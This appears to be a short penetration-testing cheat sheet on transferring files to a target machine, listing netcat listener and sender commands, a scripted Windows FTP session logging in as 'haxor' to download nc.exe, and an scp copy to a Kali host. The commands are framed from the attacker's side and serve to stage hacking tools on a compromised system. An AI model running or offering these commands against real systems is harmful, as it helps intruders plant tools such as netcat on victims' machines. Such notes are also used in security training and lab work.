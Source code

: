 # Transferring Failes

### nc
```
nc -nlvp 4444 > income.exe                                      # on server 
nc -nv 192.168.1.1 4444 </usr/share/windows-binaries/wget.exe   # on attacker
```

### ftp
```
# scripted download
echo open 10.x.x.x7> ftp.txt
echo haxor>> ftp.txt
echo password>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt

ftp -s:ftp.txt  # will download nc.exe to current dir
```

### scp
```
scp file.txt root@kali:/tmp/
```
